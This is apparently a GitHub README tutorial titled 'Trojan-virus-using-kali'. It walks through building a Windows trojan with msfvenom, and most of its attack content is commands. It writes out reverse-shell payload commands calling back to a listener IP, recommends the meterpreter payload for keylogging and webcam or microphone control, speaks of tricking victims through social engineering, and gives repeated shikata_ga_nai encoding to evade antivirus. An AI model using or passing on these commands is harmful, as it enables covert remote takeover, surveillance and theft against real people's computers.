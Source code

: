 # Trojan-virus-using-kali
https://acrobat.adobe.com/id/urn:aaid:sc:AP:69d7d7ca-2852-4fa6-9573-27679202ec5f

Use above link to see practical implications...

Creating TROJAN Virus in Kali linux 

 Depending on the tools we use, we can have access to our victim’s files and system processes, including the ability to record keystrokes or take a screenshot through their webcam. 

Step 1: Update and Upgrade Kali Linux
we should be periodically updating Kali Linux. If you haven’t upgraded in a while or you just booted it up, now is a good time to update.

Enter following command to update your kali

sudo apt-get update

Next tipe in:

sudo apt-get upgrade
This should update your system to the most recent version, ensuring that all the tools will work exactly as they should. Now we can begin.

Step 2: Open exploit software
In this article, we will be using the metasploit framework. Metasploit is a software that comes pre-installed on all Kali Linux machines that allows you to create custom payloads that will link back to your computer from the victim’s computer. In this case, the payload is our RAT. Using metasploit, a hacker can create a payload, save it to a file, and trick some unsuspecting user into clicking on it through social engineering.

Now open the terminal and write : 

msfvenom
This will show a list of commands available to you in metasploit.
AND
To see available payloads, type: 

msfvenom -l payloads

This will list all available payloads for you to use. As you can see, there are a lot of them. If you want to see other options, you can type in any of the other options listed on screen. You can see options like formatting, platforms, encoders (which will be discussed later in this article), encryption keys, bad characters, and many others.

Step 2.5: Fix any errors
If you are getting error like Invalid option try following commands

Cd /root

To fix this, change the current directory (file) to usr/share/metasploit-framework by typing in:

cd /usr/share/metasploit-framework/

from the root directory. If you make a mistake, you can type in
cd . . 
Now that we are in the metasploit-framework directory, type in
gem install bundler
to install bundler, then type in
bundle install
If bundler is not the correct version, you should get a message telling you which version to install (in this case it was 1.17.3). Type in
gem install bundler:[version number]
and then type in
gem update –system
Then we type:
Cd /root
To go back to the directory.
Step 3: Choose our payload
Type in
msfvenom -l payloads
to see a list of payloads.
We recommend using windows/meterpreter/reverse_tcp. It allows you to keylog, sniff for data, and control the infected computer’s file system, microphone, and webcam. It is one of the most versatile, invasive, and devastating payloads in metasploit.
Step 4: Customize our payload
Now that we have our payload, we can check what options we have. Type:                                          msfvenom –list-options -p [payload]
We see that LHOST is blank; this is where the exploit sends information from the infected device. In most cases, this will be your ip address.

To find your ip address, type
ifconfig

Our ip address is our LHOST parameter.

Step 5: Generate the trojan
Now that we have our payload, ip address, and port number, we have all the information that we need. Type :

msfvenom -p [payload] LHOST=[your ip address] LPORT=[the port number] -f [file type] > [path]
If you get the error like permission denied try this: 

Use sudo (if you have root privileges): If you have sudo privileges, you can try to run the command with sudo to grant the necessary permissions, type:

sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe > trojan

2) Change the directory to one where you have write permissions: If you don't want to use sudo or don't have the necessary privileges, change to a directory where you have write permissions, such as your home directory, type:

cd ~
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe > trojan

3) Set the correct permissions on the target directory: You can also change the permissions of the directory to allow writing. For example, if you want to write to /path/to/directory type:
 
chmod u+w /path/to/directory
cd /path/to/directory
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe > trojan

4) Check for restrictive umask settings: Ensure that your umask settings are not too restrictive. You can check your current umask with, type:

umask

A common umask value is 0022. If it is too restrictive, you can temporarily set it to a less restrictive value:

umask 0022
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe > trojan

And still if you are getting permission denied like above then go for this:

Check File Creation with Redirection (>): Sometimes, the permission denied error might be due to the redirection itself. Try creating a simple file with redirection to see if the problem persists type:

echo "test" > testfile

If you get a permission denied error here as well, it confirms that the issue is with file creation permissions.

Use tee for Output Redirection: You can use tee to write the output to a file, which might bypass some permission issues type:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe | sudo tee trojan > /dev/null

Check Directory Permissions: Ensure that the directory you're trying to write to has the correct permissions type:
ls -ld $(pwd)
Create File in /tmp Directory: The /tmp directory is usually writable by all users. Try creating the file there,type: 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe > /tmp/trojan

Verify Disk Space: Ensure that there is enough disk space available on the device,type:
df -h
Check for File System Issues: Sometimes file system issues can cause permission errors. Check for file system integrity,type:
dmesg | grep -i error
If none of these steps resolve the issue, you might need to check for system-wide policies or restrictions that might be preventing file creation in certain directories or with certain permissions.
Step 6: Encrypt the trojan
Since windows/meterpreter/reverse_tcp is a common exploit, many antivirus programs will detect it. However, we can encrypt the program so that an antivirus can’t catch it. Included with metasploit is a long list of encryptors. Type:

msfvenom -l

Once you choose the encryption you want (we recommend x86/shikata_ga_nai), you can encrypt it multiple times when you type in the command to make the exploit. Encrypting the file multiple times helps prevent antivirus programs from catching your virus. Type in:

umask 0022
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -e x86/shikata_ga_nai -i 100 -f exe > encryptedtrojan.exe

